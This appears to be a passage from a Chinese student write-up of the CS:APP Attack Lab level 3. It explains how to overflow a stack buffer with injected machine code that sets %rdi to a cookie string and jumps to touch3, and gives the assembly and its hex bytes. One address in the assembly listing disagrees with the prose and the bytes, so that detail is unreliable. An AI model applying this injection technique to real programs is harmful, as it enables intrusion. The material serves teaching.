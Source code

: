 |                                  								|
| -----------------------------------------------------------------------------     |
| `00 00 00 00 55 66 fd 68`<——`0x5566fd90`     |
| `00 00 00 00 00 00 00 00`                    			  |
| `00 00 00 00 00 00 00 00`                    			  |
| `00 00 00 00 00 e0 ff 00`                    			  |
| `00 55 55 55 55 5a e0 b8`                    			  |
| `48 76 92 7b bf  c7 c7 48`<—— `0x5566fd68`  |



#### level_3

第三阶段，同样要在输入的字符串中注入一段代码。我们仍然首先查看`touch3`函数的行为。

~~~c
void touch3(char*sval)
{
    vlevel = 3;
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
~~~

根据函数的要求，我们需要在输入中为字符串开辟内存空间，并将字符串首地址作为第一个参数修改`%rdi`。

解题思路：

- 将返回地址设置为代码段的注入地址，本次在栈顶直接注入，所以将返回地址设置为`%rsp`的值。
- 将`touch3`的首地址放入寄存器，比如`%rax`，然后直接使用`jmp`指令跳转至`touch3`函数。
- 将字符串`"76927bbf"`存入栈空间。这里需要注意，不要存入返回地址`%rsp`和注入的代码段之间，因为那段空间不稳定，容易被`hexmatch`函数覆盖。为了稳妥，我们不妨将字符串首地址设置在返回地址`%rsp`上面`0x5566fd98`的位置。

综上所述，我们需要注入的代码和对应的指令序列为：

~~~assembly
	movq	$0x5566fd87, %rdi
	movq   	$0x555555555bf7, %rax
	jmp 	%rax
~~~

反汇编这段代码，得到的结果是：

![](/home/fang/Pictures/Screenshot from 2019-11-24 10-57-56.png)

于是我们得到这三条指令序列为`48 c7 c7 98 fd 66 55 48 b8 f7 5b 55 55 55 55 00 00 ff e0`。
